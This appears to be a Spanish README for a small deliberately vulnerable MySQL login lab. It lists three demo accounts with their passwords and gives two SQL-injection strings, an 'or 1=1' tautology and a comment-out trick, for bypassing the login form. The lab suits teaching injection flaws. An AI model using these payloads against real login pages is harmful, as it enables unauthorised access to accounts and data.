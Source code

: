 # loginMYSQL

## Usuarios:
- **bob** / bobby
- **alice** / alicet
- **trudy** / alisia

## SQL injection
Para ello deberás poner en el login:

`' or 1=1; -- aasdf`

`username' -- asdf`

Username = Usuario escogido
